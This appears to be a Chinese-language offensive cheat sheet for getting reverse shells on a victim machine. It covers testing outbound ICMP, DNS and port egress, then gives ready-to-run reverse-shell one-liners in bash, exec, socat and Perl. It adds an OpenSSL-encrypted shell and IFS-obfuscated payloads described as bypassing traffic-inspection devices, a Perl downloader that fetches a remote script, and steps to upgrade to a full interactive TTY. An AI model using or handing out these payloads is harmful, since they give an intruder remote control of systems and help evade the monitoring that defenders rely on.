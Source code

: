 ### 1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
### 2、判断目标是否向外通icmp流量
```
方法1：
受害机上执行：ping -c 1 202.98.0.68>icmp.txt
受害机上执行：ls -alh
受害机上执行：cat icmp.txt

方法2：
VPS上执行：tcpdump -i eth0 -n -v icmp|grep -i "length 93"
Linux受害机上执行：ping -s 65 -c 1 xx.xx.xx.xx
Windows受害机上执行：ping -l 65 -n 1 xx.xx.xx.xx
```
# 3、判断目标是否向外通dns流量
```
方法1：
受害机上执行：ping -c 1 www.baidu.com>dns.txt
受害机上执行：ls -alh
受害机上执行：cat dns.txt

方法2：
反连平台dnslog.cn上生成一个子域名
受害机上执行：ping xxx.dnslog.cn
查看反连平台

想要修改hosts，经测试，如下这种是不行的：
sudo echo "127.0.0.2 www.baidu.com" >> /etc/hosts
只能是在root用户下执行：
echo "127.0.0.2 www.baidu.com" >> /etc/hosts
```
### 3、判断目标向外通哪些端口
```
VPS上执行：nc -n -v -lp 3636
受害机上执行：curl http://xx.xx.xx.xx:3636
```
### 4、反弹shell
```
bash反弹shell：
VPS上执行：nc -n -v -lp 1024
受害机上执行：/bin/bash -i >& /dev/tcp/<your_vps>/1024 0>&1
需要注意，当在URL地址栏或burp中进行命令注入利用时，需执行：/bin/bash -i %3E%26 /dev/tcp/xx.xx.xx.xx/1024 0%3E%261

exec反弹shell：0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
### 5、绕过流量审查反弹shell
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect xx.xx.xx.xx > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
### 6、将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为全功能的shell

如果拿到的shell执行Ctrl-z会退出会话，可考虑使用socat的方案：

攻击机：
socat file:`tty`,raw,echo=0 tcp-listen:4444
受害机：
curl -o /tmp/socat http://192.168.81.160:8000/socat 或者 wget -O /tmp/socat http://192.168.81.160:8000/socat
chmod u+x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
此时拿到的shell可以执行删除、可以选择历史命令、可以执行ctlr-c
```
### 参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://saucer-man.com/information_security/233.html#cl-1  



perl反弹shell  
用于生成下载脚本的bash命令：
```
echo use LWP::Simple\;\$url=\"http://1.1.1.1/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行后生成d.pl，再执行d.pl下载r.pl，r.pl（用于反连的perl脚本）如下：
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```

1、bash反弹shell  
attack执行：nc -lvp 2333  
victim执行：
```
bash -i >& /dev/tcp/1.1.1.1/2333 0>&1
```
# linux下bash反弹shell绕过流量检测设备
```
bash -c 'exec bash -i &>/dev/tcp/120.48.45.46/12345 <&1'

bash -c bash${IFS}-i${IFS}>&/dev/tcp/120.48.45.46/12345<&1
```
参考链接：https://blog.csdn.net/whatday/article/details/107098353